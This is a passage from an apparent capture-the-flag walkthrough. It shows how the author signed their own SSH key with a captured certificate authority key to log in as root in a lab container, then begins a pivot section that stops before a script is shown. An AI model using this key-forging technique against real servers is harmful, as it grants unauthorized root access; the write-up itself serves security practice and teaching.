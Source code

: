 In the following way we can now sign ourselves as ANY Other user a public key which is accepted by our local SSH server.

__1. Create RSA Keypair:__

```bash
ssh-keygen -f mykey -t rsa
```

__2. Sign Key:__

```bash
ssh-keygen -s ca-itrc -I "hacker" -n root mykey.pub
```

__3. Login:__

```bash
ssh -i mykey root@localhost
```

Now I was root in the container 172.223.0.3 and got the user flag in the home directory of the user `zzinter`. 

![Screenshot26](./screenshots/26.png)

<br>
<br>
<br>

## root

So... that was a good piece of work up to here.

I often got lost, it took me a long time to get on the right track with the web-exploitation and now I am root in the container with a user flag.

The root part wasn't any easier for me personally, it was just as difficult and time-consuming.

First of all, I ran into rabbit holes with the usual Docker breakout techniques...

<br>

### Pivot -> 172.223.0.1

In the home directory of `zzinter` we have a script called `sign_key_api.sh` whose content I put here completely.

__sign_key_api.sh__
